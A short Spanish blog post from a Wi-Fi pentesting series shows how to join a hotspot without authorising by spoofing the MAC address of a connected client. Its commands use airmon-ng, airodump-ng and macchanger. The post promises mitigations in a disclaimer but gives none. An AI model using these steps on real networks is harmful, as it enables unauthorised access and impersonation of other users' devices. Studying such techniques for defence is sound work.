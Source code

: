```yaml
---
layout: post
title: "Wi-Fi Pentesting - Free Wifi with MAC Spoofing"
date: 2020-06-17 11:00:00 -0400
categories: [security]
---
```


En esta serie de post se abordan comandos usados en pruebas de penetración de redes Wi-Fi, esta publicación consiste en una recopilación de instrucciones para su estudio, y posibles soluciones a estas vulnerabilidades, de ninguna forma se pretende fomentar el uso indebido de estas técnicas.

Es posible conectarse a un hotspot reemplazando nuestra mac address por la mac address de algún dispositivo ya conectado, es decir haciendo un mac spoofing  de algun dispositivo habilitado.

Para esto necesitamos conocer la dirección mac de algun dispositivo conectado.

```
sudo airmon-ng start interfaz
```

Escaneamos les redes disponibles para encontrar nuestro objetivo
```
sudo airodump-ng interfaz
```

Una vez que tenemos información del hotspot debemos encontrar clientes conectados
```
sudo airodump-ng -c canal -bssid MAC_ROUTER --encrypt encriptación interfaz
```

Si encontramos clientes conectados debemos ver su dirección mac y cambiamos la nuestra por esa dirección
```
sudo ifconfig interfaz down
sudo macchanger -m nueva_mac_address interfaz
sudo ifconfig interfaz up
```

En este punto ya deberiamos tener acceso a la red.

